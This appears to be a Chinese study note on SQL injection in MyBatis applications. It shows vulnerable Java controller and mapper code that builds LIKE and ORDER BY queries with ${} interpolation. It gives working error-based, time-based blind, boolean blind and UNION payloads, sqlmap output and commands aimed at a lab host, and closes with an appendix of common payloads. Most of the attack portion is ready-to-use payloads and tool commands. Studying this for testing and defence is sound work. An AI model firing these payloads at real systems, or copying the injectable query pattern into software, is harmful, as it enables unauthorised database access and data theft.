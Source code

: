 ### like注入
Controller代码：
```java
    @GetMapping("/mybatis/vuln_like2")
    public List<User> mybatis_vuln_like2(@RequestParam("username") String username) {
        return userMapper.findByUserNameVulLike2(username);
    }
```

Mapper：
```java
    @Select("select * from users where username LIKE '%${username}%'")
    List<User> findByUserNameVulLike2(@Param("username") String username);
```

报错注入：
```
username=cqq' AND GTID_SUBSET(CONCAT(0x7171626a71,(SELECT (ELT(6688=6688,1))),0x7178787171),6688)-- QmbH
```
时间盲注：
```
username=cqq' AND (SELECT 4500 FROM (SELECT(SLEEP(5)))rkmI)-- nrTl
```
布尔盲注：
```
username=cqq' AND 8093=8093-- hhbc
```
UNION查询:
```
username=cqq' UNION ALL SELECT NULL,NULL,CONCAT(0x7171626a71,0x53567546675441424d4f707864784d504f5975505149676d76464d6c484149495453506978487961,0x7178787171)-- -
``

### order by注入

Controller:
```java
    @GetMapping("/mybatis/vuln_order3")
    public List<User> mybatis_vuln_order3(@RequestParam("sortName") String sortName, @RequestParam("sortType") String sortType) {
        return (List<User>) userMapper.OrderByVuln3(sortName, sortType);
    }
```

Mapper：
```xml
    <select id="OrderByVuln3" resultMap="User">
        select * from users order by ${sortName} ${sortType}
    </select>
```
分析：
sortType这个参数有效的值要么为空，要么为desc（倒序）。
sortName需要知道一个有效的column值，如果不知道，burp只能扫出来疑似的SQL注入，
![a8cb08db0dd997b44f2be00c7250812](https://user-images.githubusercontent.com/30398606/142969552-98d283cd-a135-4899-b4f0-4693a871234f.png)

![image](https://user-images.githubusercontent.com/30398606/142969068-301ff63e-97ef-46af-b119-5fa9e8266b42.png)


而sqlmap扫不出来：
![5b3ceef64642d438864e335e1988644](https://user-images.githubusercontent.com/30398606/142968975-5c289458-d161-4458-a7a1-fbe499fc9027.png)

![64d0bec1e5d77995bdfe08a76f153dd](https://user-images.githubusercontent.com/30398606/142968981-7073514a-bf63-4408-95ee-dbf4a25c1e82.png)


当找到有效的column之后：`username`
响应会返回有效的数据，而不是报错：
![image](https://user-images.githubusercontent.com/30398606/142969830-2140adab-0f69-4058-8f22-04546658321d.png)


sqlmap结果：
```
Parameter: sortName (GET)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: sortName=username||(SELECT 0x4b76696f FROM DUAL WHERE 3545=3545 AND GTID_SUBSET(CONCAT(0x716a6b7071,(SELECT (ELT(6834=6834,1))),0x71706a6a71),6834))||&sortType=b

```

加上自定义的sql查询：
```
python3 sqlmap.py -u "http://cqq.com:8888/sqli/mybatis/vuln_order3?sortName=username&sortType=desc" -p "sortName,sortType" -H "Cookie: JSESSIONID=CC27180CE82569714649EBB975D71078" --dbms=MYSQL --sql-query="select database()"
```

报错注入payload：
```
/sqli/mybatis/vuln_order3?sortName=username%20OR%20GTID_SUBSET%28CONCAT%280x7162786a71%2C%28SELECT%20MID%28%28IFNULL%28CAST%28version%28%29%20AS%20NCHAR%29%2C0x20%29%29%2C1%2C190%29%29%2C0x7178706a71%29%2C8596%29&sortType=desc
```
解码之后：
```
sortName=username OR GTID_SUBSET(CONCAT(0x7162786a71,(SELECT MID((IFNULL(CAST(version() AS NCHAR),0x20)),1,190)),0x7178706a71),8596)&sortType=desc
```

## SQL注入发生在查询的不同位置
### SQL injection in different parts of the query

> Most SQL injection vulnerabilities arise within the `WHERE` clause of a SELECT query. This type of SQL injection is generally well-understood by experienced testers.

**But SQL injection vulnerabilities can in principle occur at any location within the query, and within different query types**. The most common other locations where SQL injection arises are:

- In `UPDATE` statements, within the updated values or the WHERE clause.
- In `INSERT` statements, within the inserted values.
- In `SELECT` statements, within the table or column name.
- In `SELECT` statements, within the ORDER BY clause.

## 附录
### 常用payload
```
时间盲注payload：
(select*from(select(sleep(5)))a)
and (select*from(select(sleep(5)))a)
or (select*from(select(sleep(5)))a)


报错注入payload：
AND extractvalue(1,concat(0x7e,CURRENT_USER,0x7e,CURRENT_USER))
OR extractvalue(1,concat(0x7e,CURRENT_USER,0x7e,CURRENT_USER))

AND updatexml(0,concat(0x7c,CURRENT_USER),1)


盲注爆破：
test'+or(select+length(CURRENT_USER))=16+or+'1'='2    # 爆破CURRENT_USER长度

or (select position('root1' in CURRENT_USER))=1    # 在条件语句中爆破CURRENT_USER
or (select position('root' in CURRENT_USER))=1

or '1'='2    # 利用任意一个false语句闭合后面的单引号
```


### 常用命令
```
python3 sqlmap.py -r sql.txt --force-ssl  --level=5 --risk=3 --threads=3 --dbms=MYSQL
```
